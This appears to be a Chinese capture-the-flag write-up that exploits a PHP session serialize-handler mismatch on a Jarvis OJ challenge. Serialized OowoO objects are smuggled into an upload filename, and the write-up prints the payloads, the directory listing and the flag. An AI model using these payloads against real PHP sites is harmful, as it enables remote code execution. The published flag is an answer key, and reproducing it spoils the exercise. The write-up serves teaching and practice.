 ## 描述

题目入口：http://web.jarvisoj.com:32784/

## 题解

进去就得到这些代码，这也是 `index.php` 自身的源码。

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }
    
    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('index.php'));
}
?>
```

headers 里没有什么可疑的东西。

分析一下代码可以知道，可以尝试 `phpinfo` 这个域来搞事情。

尝试 http://web.jarvisoj.com:32784/?phpinfo 得到了 PHP 的一些信息（我保存到了 [phpinfo.html](./assets/phpinfo.html) 里）。

搜了一些关键字没啥发现。御剑扫了一下发现有 `phpmyadmin`，说明有数据库可以玩，可能要注入（在 phpinfo 里搜索 mysql 也能发现）。

好吧，摸索了一下，完全没头绪。看题解。

md 这都是什么神仙漏洞啊。。。。。。。。。突破口在 `OowoO` 的构造、析构函数和代码

```php
ini_set('session.serialize_handler', 'php');
session_start();
```

有一个洞是 PHP 序列化与反序列化 handler 不一致从而利用 session 实现构造对象。

漏洞详细介绍可以查看 https://blog.spoock.com/2016/10/16/php-serialize-problem/ 在这我只简单介绍一下。

`session.serialize_handler` 有几种存储方式（见[官方文档](https://www.php.net/manual/zh/session.configuration.php#ini.session.serialize-handler)），这里介绍其中两种：

- `php_serialize`：数据经过 `serialize/unserialize` 来进行存储/读取 session
- `php`：键名 + 竖线 + 数据经过`serialize/unserialize` 来进行存储/读取 session

若存储和读取时方式不一致，就会产生漏洞。比如以 `php_serialize` 的方式将一段 `php` 格式的反序列化字符串存储到 session 中，再调用有 `session_start()` 的、handler 格式为 `php` 的 php 文件，便能实现构造一个对象。

PHP 在 5.5.4 版本之后默认将 `session.serialize_handler`，而在这里却将 `session.serialize_handler` 设置成了 `php`（通过 phpinfo 查看相应条目也能看到），所以有这个漏洞。

再结合 `OowoO` 这个析构函数里会执行 `mdzz` 这个字符串，所以我们可以构造一个 `OowoO`，然后利用漏洞达到执行任何指令的目的。

但是现在问题在于，如何将我们构造的 `OowoO` 存储到 session 里。答案在 `session.upload_progress.enabled` 这个选项里，通过查阅[官方文档](https://www.php.net/manual/zh/session.upload-progress.php)得知，可以构造上传达到存信息到 session 里，文档里有个例子

```html
<form action="upload.php" method="POST" enctype="multipart/form-data">
 <input type="hidden" name="<?php echo ini_get("session.upload_progress.name"); ?>" value="123" />
 <input type="file" name="file1" />
 <input type="file" name="file2" />
 <input type="submit" />
</form>
```

则 session 里存储的为

```
<?php
$_SESSION["upload_progress_123"] = array(
 "start_time" => 1234567890,   // The request time
 "content_length" => 57343257, // POST content length
 "bytes_processed" => 453489,  // Amount of bytes received and processed
 "done" => false,              // true when the POST handler has finished, successfully or not
 "files" => array(
  0 => array(
   "field_name" => "file1",       // Name of the <input/> field
   // The following 3 elements equals those in $_FILES
   "name" => "foo.avi",
   "tmp_name" => "/tmp/phpxxxxxx",
   "error" => 0,
   "done" => true,                // True when the POST handler has finished handling this file
   "start_time" => 1234567890,    // When this file has started to be processed
   "bytes_processed" => 57343250, // Amount of bytes received and processed for this file
  ),
  // An other file, not finished uploading, in the same request
  1 => array(
   "field_name" => "file2",
   "name" => "bar.avi",
   "tmp_name" => NULL,
   "error" => 0,
   "done" => false,
   "start_time" => 1234567899,
   "bytes_processed" => 54554,
  ),
 )
);
```

原理弄明白了以后，开始搞事情。

序列化一个 `OowoO` 为 `O:5:"OowoO":1:{s:4:"mdzz";s:31:"print(system("ls /opt/lampp/htdocs/"))";}`，然后将其作为文件名构造提交。但是文件名一般不支持这些特殊字符，所以得用一些手段，BurpSuite 来抓包并修改文件名。

编写一个 html 文件用于上传文件

```html
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

然后随便上传一个文件，BP 抓包后修改上传的文件名为

```
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}
```

（双引号转义是因为 HTTP 报文包里 filename 的值是用 `"` 来包裹的）然后便得到了

```
Array
(
    [0] => .
    [1] => ..
    [2] => Here_1s_7he_fl4g_buT_You_Cannot_see.php
    [3] => index.php
    [4] => phpinfo.php
)
```

再读取 `Here_1s_7he_fl4g_buT_You_Cannot_see.php` 这个文件就好

```
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:75:\"echo readfile(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\");\";}
```

得到

```
<?php 
	$flag="CTF{4d96e37f4be998c50aa586de4ada354a}";
?>59
```

## 答案

CTF{4d96e37f4be998c50aa586de4ada354a}
